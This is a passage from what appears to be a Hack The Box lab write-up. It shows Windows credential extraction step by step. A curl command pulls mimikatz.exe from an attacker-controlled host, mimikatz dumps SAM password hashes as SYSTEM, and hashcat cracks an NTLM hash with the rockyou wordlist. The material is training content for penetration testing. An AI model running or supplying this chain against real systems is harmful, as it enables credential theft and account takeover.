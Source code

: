 ```
C:\Windows\system32> whoami

nt authority\system
```

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt

el3va*********************** 📌
```

#### Windows Credentials Extraction

```
C:\Users\htb-student> curl http://10.10.15.186:8000/mimikatz.exe -o C:\Users\Public\mimikatz.exe
```

```
C:\Windows\system32> C:\Users\Public\mimikatz.exe "token::elevate" "lsadump::sam" "exit"

[SNIP]

RID  : 000003eb (1003)
User : wksadmin
  Hash NTLM: 5835048ce94ad0564e29a924a03510ef
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat -m 1000 '5835048ce94ad0564e29a924a03510ef' /usr/share/wordlists/rockyou.txt

[SNIP]

5835048ce94ad0564e29a924a03510ef:passw**** 📌

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 5835048ce94ad0564e29a924a03510ef
```

---
---
